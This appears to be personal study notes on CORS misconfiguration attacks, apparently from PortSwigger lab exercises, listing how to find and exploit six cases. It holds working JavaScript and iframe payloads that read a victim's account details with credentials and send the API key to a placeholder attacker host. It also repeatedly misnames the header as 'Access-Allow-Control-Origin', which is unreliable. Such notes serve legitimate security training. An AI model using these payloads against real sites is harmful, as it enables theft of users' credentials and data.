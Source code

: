 # CORS

## Types:

1. Server-generated ACAO header from client-specified Origin header
2. Errors parsing Origin headers
3. Whitelisted null origin value
4. Exploiting XSS via CORS trust relationships
5. Breaking TLS with poorly configured CORS
6. Intranets and CORS without credentials 
---

## How to find each type:

1. Server-generated ACAO header from client-specified Origin header
- Attempt to use a random origin in the `Origin` header.
- See if the origin is reflected in the  `Access-Allow-Control-Origin` header.
2. Errors parsing Origin headers
- See if you can use subdomains or domains that end with the whitelisted domain.
3. Whitelisted null origin value
- Put `null` in the origin header and see if it is reflected.
4. Exploiting XSS via CORS trust relationships
- Check to see if subdomains are allowed in the `Access-Allow-Control-Origin` header.
- If they are, see if there is XSS on these domains.
5. Breaking TLS with poorly configured CORS
- Check subdomains for vulnerabilities.
6. Intranets and CORS without credentials 
-
---

## How to exploit each type:

1. Server-generated ACAO header from client-specified Origin header
```js
<script>
  function getadmin() {
      var res = JSON.parse(this.response)
      fetch("https://<your-exploit>/accountdetails?" + res.apikey);
  }
  
  const request = new XMLHttpRequest();
  request.addEventListener("load", getadmin);
  request.open("GET", "https://<your-id>/accountdetails", true);
  request.withCredentials = true;
  request.send();
</script>
```
2. Errors parsing Origin headers
- If `normal-website.com` is ok then try `hackersnormal-website.com`.
3. Whitelisted null origin value
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://<your-id>/accountdetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
var res = JSON.parse(this.response)
location = 'https://<your-exploit>/accountdetails?' + res.apikey;
};
</script>"></iframe>
```
4. Exploiting XSS via CORS trust relationships
- Use XSS with the first CORS exploit:
  ```html
  <script>
    location="http://subdomain/?param=xss
  </script>

  hackvertor to urlencode
  <@urlencode><script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://<id>/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {var res = JSON.parse(this.response); location='https://<exploit>/accountDetails?key='+res.apikey;};</script><@/urlencode>

  Portswiggers solution:
  <script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://<id>/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://<exploit>/log?key='%2bthis.responseText; };%3c/script>
  ```
5. Breaking TLS with poorly configured CORS
- This attack involves the following steps:
  - The victim user makes any plain HTTP request.
  - The attacker injects a redirection to: `http://trusted-subdomain.vulnerable-website.com`
  - The victim's browser follows the redirect.
  - The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to: `https://vulnerable-website.com`
  - The victim's browser makes the CORS request, including the origin: `http://trusted-subdomain.vulnerable-website.com`
  - The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
  - The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.
6. Intranets and CORS without credentials 
-
---

## Other important notes:
- Look for the `Access-Allow-Control-Origin` header.
